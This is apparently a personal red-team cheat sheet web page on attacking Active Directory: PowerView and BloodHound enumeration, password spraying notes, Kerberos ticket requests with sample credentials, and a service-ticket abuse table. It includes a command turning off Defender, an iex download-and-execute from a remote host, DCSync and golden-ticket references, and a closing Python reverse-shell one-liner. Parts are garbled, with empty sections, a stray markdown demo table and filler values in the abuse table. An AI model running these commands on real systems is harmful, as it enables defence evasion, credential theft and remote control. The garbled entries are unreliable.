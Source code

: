 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


## DOMAIN ENUMERATION

I do prefer to do manual enumeration but on large enterprice networks, some automated scan would come in handy to search for low hanging fruits

Automated Scanners
AdPeas.ps1

You can aswell use BloodHound to visualize data

> checklist
check password policy
gather usernam -
Pray and Spray with CME 

```powershell
#For SharpHound.exe
./SharpHound.exe --CollectionMethod All

#For SharpHound.ps1
Invoke-BloodHound -ZipFileName ratloot -CollectionMethod All -Domain  rat.local

```
<span class="demo-highlight"># Patch AMSI or disable AV</span>

Getting hands dirty with PowerView
```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
 <span class="demo-highlight"># Domain & Controller Enumeration</span>

```powershell
Get-NetDomain 
            
Get-NetDomainController     
```
<br>
 <span class="demo-highlight"># User Enumeration</span>

```powershell
# Get all users present in the domain
Get-NetUsers | select cn

# Get users sorted with most logoncounts
Get-UserProperty -Properties logoncount | where logoncount | sort logoncount -Descending

# Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying
Get-NetUsers | select samaccountname > username.txt

```
<br>
<span class="demo-highlight"># Group Enumeration </span>

```powershell
# Get AD groups data either all or of a user
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']

# Get Members of a group
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]	
```
<br>
<span class="demo-highlight"># Share Enumeration</span>

```powershell
# Find interesting shares
Invoke-ShareFinder -ExcludeStandard -ExcludeIPC -ExcludePrint	

```
<br>
<span class="demo-highlight"># GPO Enumeration</span>

```powershell
# List all GPOs in the domain
Get-NetGPO [-ComputerName <rat.domain>]	

#Find Interesting GPO
Get-NetGPOGroup

```
<br>
<span class="demo-highlight"># OU Enumeration</span>

```powershell
# Get all OU (Organisational Units) in the domain
Get-NetOU [-FullData]

# Get gplink of an OU to get GPOs applied to it
(Get-NetOU -Name 'test').gplink	

# Get GPO of a GPlink
Get-NetGPO -GPOName '{cadkfapsdfasdfaudvajkd}'

# Get GPO of an OU using gplink
((Get-NetOU -FullData <OU_NAME>).gplink -split "cn=" -split ",")[1] | Get-NetGPO
```
<br>
<span class="demo-highlight"># ACL Enumeration</span>

```powershell
# Find interesting ACL
Invoke-ACLScanner -ResolveGUIDS	

# Find interesting ACL owned by a certain user :rat:
Invoke-ACLScanner -ResolveGUIDS | ?{$_.IdentityReference -match 'rat'}	
```
<br>
<span class="demo-highlight"># Trust Enumeration</span>

```powershell
# Map all domain trust
Get-NetDomainTrust [-Domain <target>]

# Get all the domain of a forest
Get-NetForestDomain [-Forest <target>]	
```
<br>
<span class="demo-highlight"># Hunting Users and Sessions</span>

```powershell
# Get list of all machines where current user has local admin access
Find-LocalAdminAccess	

# Invoke-EnumerateLocalAdmin	
Find all admins on all computers

# Find machines where a domain admin has a session, checkaccess tells you if you also have access to that machine
Invoke-UserHunter [-GroupName <group_name>] [-CheckAccess]	

# Get list of active sessions on a computer
Get-NetSession [-ComputerName <comp_name>]	

# Get list of Users logged-on on a system
Get-LoggedOnLocal [-ComputerName <comp_name>]	
```

<br>
## Kerberos Attacks
<br>
<span class="demo-highlight"># working from linux with creds</span>


````powershell
# username : rat
# password : r@tty419
# domain : rodent.local
impacket-getTGT rodent.local/rat:'r@tty419'


# now import the ticket into memory
export KRB5CCNAME=/tmp/rat.ccache

# confirm the ticket in memory 
klist
````
<br>
<br>
<span class="demo-highlight"># working from windows with creds</span>
````powershell
# Using Rubeus

./Rubeus.exe asktgt 
````

<br>
using */altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm* in Rubeus you can ask for all the tickets
<br>
| Service Ticket   | Service Type | # Abuse funtino |
|--------------|:-----:|-----------:|
| CIFS         |Windows FileShare, PsExec |        739 |
| HOST         |PsRemoting, Scheduled Task | adcad |
| HTTP         |PsRemoting|$sess = New-PsSession -Computername DC01; Enter-PsSession -Session $sess |
| LDAP         |LDAP Ops, DCSync |Mimikatz > lsadump::dcsync /rat.local:$DC-IP /all /csv |
| RPCSS        |  1.99 |        739 |
| KRBTGT       |Golden Ticket |do anything lol,|
| HOST & RPCSS |WMI |  WMIEXEC|
| HOST & HTTP |WinRM |  WMIEXEC|



|                |ASCII                          |HTML                         |
|----------------|-------------------------------|-----------------------------|
|Single backticks|`'Isn't this fun?'`            |'Isn't this fun?'            |
|Quotes          |`"Isn't this fun?"`            |"Isn't this fun?"            |
|Dashes          |`-- is en-dash, --- is em-dash`|-- is en-dash, --- is em-dash|
<br>


## RTF && SCF Weaponization

<br>
<br>
<br>

# MITM6 IPV6 Attack

<br>
<br>
<br>




```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
